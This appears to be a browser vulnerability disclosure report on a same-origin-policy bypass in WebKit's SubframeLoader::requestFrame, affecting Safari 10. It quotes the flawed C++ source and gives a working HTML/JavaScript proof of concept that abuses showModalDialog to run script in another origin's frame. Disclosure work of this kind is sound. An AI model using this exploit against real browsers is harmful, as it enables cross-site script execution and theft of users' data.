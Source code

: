 Here's a snippet of the method SubframeLoader::requestFrame which is invoked when the |src| of an iframe object is changed.

bool SubframeLoader::requestFrame(HTMLFrameOwnerElement& ownerElement, const String& urlString, const AtomicString& frameName, LockHistory lockHistory, LockBackForwardList lockBackForwardList)
{
    // Support for <frame src="javascript:string">
    URL scriptURL;
    URL url;
    if (protocolIsJavaScript(urlString)) {
        scriptURL = completeURL(urlString); // completeURL() encodes the URL.
        url = blankURL();
    } else
        url = completeURL(urlString);

    if (shouldConvertInvalidURLsToBlank() && !url.isValid())
        url = blankURL();

    Frame* frame = loadOrRedirectSubframe(ownerElement, url, frameName, lockHistory, lockBackForwardList); <<------- in here, the synchronous page load is made.
    if (!frame)
        return false;

    if (!scriptURL.isEmpty())
        frame->script().executeIfJavaScriptURL(scriptURL); <<----- boooom

    return true;
}

A SOP violation check is made before the above method is called. But the frame's document can be changed before |frame->script().executeIfJavaScriptURL| called. This can happen by calling |showModalDialog| that enters a message loop that may start pending page loads.

Tested on Safari 10.0.3(12602.4.8).

PoC:
```
<body>
<p>click anywhere</p>
<script>

window.onclick = () => {
    window.onclick = null;

    f = document.createElement('iframe');
    f.src = 'javascript:alert(location)';
    f.onload = () => {
        f.onload = null;

        let a = f.contentDocument.createElement('a');
        a.href = 'https://abc.xyz/';
        a.click();

        window.showModalDialog(URL.createObjectURL(new Blob([`
<script>
let it = setInterval(() => {
    try {
        opener[0].document.x;
    } catch (e) {
        clearInterval(it);

        window.close();
    }
}, 100);
</scrip` + 't>'], {type: 'text/html'})));
    };

    document.body.appendChild(f);
};

cached.src = kUrl;

</script>
</body>
```

This bug is subject to a 90 day disclosure deadline. If 90 days elapse
without a broadly available patch, then the bug report will automatically
become visible to the public.

